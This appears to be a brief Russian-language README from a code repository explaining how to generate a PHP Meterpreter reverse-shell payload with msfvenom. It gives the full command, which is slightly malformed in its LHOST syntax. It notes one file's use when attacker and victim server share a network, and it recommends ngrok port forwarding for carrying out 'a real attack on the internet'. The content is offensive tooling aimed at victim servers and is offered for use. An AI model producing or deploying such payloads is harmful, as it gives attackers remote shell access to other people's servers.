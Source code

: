 Генерируем payload php в msfvenom.

Пример:
msfvenom -p php/meterpreter_reverse_tcp LHOST ip_адрес LPORT=4444 -f raw > meterpreter_reverse_tcp.php
p.s. Если в LHOST длинное доменное имя, то пишем LHOSTдоменное_имя (слитно)

Файл local_meterpreter_reverse_tcp.php - файл с локальным ip адрессом в LHOST (сетевой адаптер в режиме NAT), используется если атакующая машинка и сервер-жертва в одной сети, и то в таком случае лучше использовать "host-only".

Для того, чтобы провести реальную атаку в интернете стоит использовать ngrok - прокидывает порты на домен (даёшь ему локальный ip и порт, а он возвращает тебе глобальный) 
